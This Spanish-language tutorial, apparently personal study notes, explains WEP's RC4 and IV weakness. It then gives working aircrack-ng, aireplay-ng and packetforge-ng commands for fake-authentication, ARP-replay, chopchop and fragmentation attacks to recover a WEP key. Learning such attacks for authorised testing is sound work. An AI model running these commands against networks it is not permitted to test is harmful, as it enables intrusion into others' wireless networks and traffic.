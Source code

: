 # WEP Cracking

## Teoría

- Wep Equivalent Privacy.
- Cifrado viejo.
- Usa un algoritmo llamado **RC4**.
- Aún es usado en algunas redes.
- Puede ser crackeado con facilidad.

### Resumen

- Paso 1. Cliente cifra los datos usando una llave.
- Paso 2. El paquete cifrado viaja por el aire.
- Paso 3. El router decifra el paquete usando la llave.

**Descripción**

- Cada paquete es cifrado usando una stream con llave única.
- Es usado un vector de inicialización aleatorio (IV) para generar los key streams.
- El vector de inicialización tiene de longitud **sólo 24 bits**.
- IV + Key (password) = Key Stream.
- El IV es enviado en texto plano.

**Vía de explotación o vulnerabilidades**

- Los IV's se repetiran en redes ocupadas.
- Eso vuelve al sistema WEP vulnerable a ataques estadísticos.
- IV's repetidos pueden ser usados para ternerminar el key stream.
- Y eventualmente, romper el cifrado.

**Conclusión**

Para crackear el cifrado es necesario:
1. Capturar una gran cantidad de paquetes/IVs. (`airodump-ng`)
2. Analizar los IVs capturados y crackear la llave. (`aircrack-ng`)

## Fake Authentication Attack

**Caso | Problema**

- La red no cuenta con mucho tráfico.
- Tomará mucho tiempo capturar paquetes.

**Solución**

- Forzar al Access Point a generar nuevos IVs.

*Antes de considerar la solución se debe tener en cuenta el siguiente sub-problema.*

**Sub-Problema**

- Los APs sólo se comunican con clientes conectados.
  - No se puede comunicar con este.
  - No se puede inicializar el ataque.

**Solución**

- Asociarse al AP antes de ejecutar el ataque.

### Ejecución

*Primeramente es necesario ejecutar packet sniffing contra objetivo.*

```bash
aireplay-ng --fakeauth 0 -a <MAC Address de objetivo> -h <MAC Address de adaptador wireless> <interfaz en modo monitor>
aireplay-ng --fakeauth 0 -a F8:23:B2:B9:50:A8 -h 48:5D:60:2A:45:25 mon0
```

*Posteriormente se puede forzar al AP a generar nuevos IVs por diferentes métodos.*

## Packet Injection - ARP Request Reply Attack

### Procedimiento

- Esperar un paquete ARP.
- Capturarlo, y retransmitirlo.
- Esto causa que el AP produzca otro paquete con un nuevo IV.
- Continuar haciéndolo hasta tener los suficientes como para crackear la llave.

### Ejecución

```bash
aireplay-ng --arpreplay -b <MAC Address de objetivo> -h <MAC Address de adaptador wireless> <interfaz en modo monitor>
aireplay-ng --arpreplay -b F8:23:B2:B9:50:A8 -h 48:5D:60:2A:45:25 mon0

aircrack-ng <archivo .cap>
aircrack-ng arpreplay-01.cap
```

## Packet Injection - Korek Chopchop Attack

### Consideraciones

- Funcional con señales débiles.
- Más complejo a diferencia del ARP Request Reply.

### Procedimiento

1. Determinar el packet key stream.
2. Forjar un nuevo paquete
3. Inyectarlo en el tr{afico.

### Ejecución

1. Ejecutar packet sniffing contra objetivo.
2. Ejecutar Fake Auth.

```bash
aireplay-ng --chopchop -b <MAC Address de objetivo> -h <MAC Address de adaptador wireless> <interfaz en modo monitor>
aireplay-ng --chopchop -b F8:23:B2:B9:50:A8 -h 48:5D:60:2A:45:25 mon0

packetforge-ng -0 -a <MAC Address de objetivo> -h <MAC Address de adaptador wireless> -k <IP destino> -l <IP fuente> -y <archivo key stream (.xor)> -w <archivo forjado>
packetforge-ng -0 -a F8:23:B2:B9:50:A8 -h 48:5D:60:2A:45:25 -k 255.255.255.255 -l 255.255.255.255 -y replay_dec-0824-110731.xor -w chopchop-forged-packet

aireplay-ng -2 -r <archivo forjado> <interfaz en modo monitor>
aireplay-ng -2 -r chopchop-forged-packet mon0

aircrack-ng <archivo .cap>
aircrack-ng chopchop-test-01.cap
```

## Packet Injection - Fragmentation Attack

El objetivo de este método es obtener 1500 bytes del PRGA (Pseudo Random Generation Algorithm), esto puede ser usado para forjar un nuevo paquete para posteriormente inyectarlo al tráfico para generar nuevos IV's.

1. Obtener PRGA.

```bash
aireplay-ng --fragment -b <MAC Address de objetivo> -h <MAC Address de adaptador wireless> <interfaz en modo monitor>
aireplay-ng --fragment -b F8:23:B2:B9:50:A8 -h 48:5D:60:2A:45:25 mon0
```

2. Forjar un nuevo paquete.

```bash
packetforge-ng -0 -a <MAC Address de objetivo> -h <MAC Address de adaptador wireless> -k 255.255.255.255 -l 255.255.255.255 -y <archivo key stream (.xor)> -w <archivo forjado>
packetforge-ng -0 -a F8:23:B2:B9:50:A8 -h 48:5D:60:2A:45:25 -k 255.255.255.255 -l 255.255.255.255 -y 1122out.xor -w chop-out
```

3. Inyectar el paquete forjado para generar nuevos IV's.

```bash
aireplay-ng -2 -r <archivo forjado> <interfaz en modo monitor>
aireplay-ng -2 -r chop-out mon0
```

4. Crackear llave

```bash
aircrack-ng <archivo .cap>
aircrack-ng chop-out-test-01.cap
```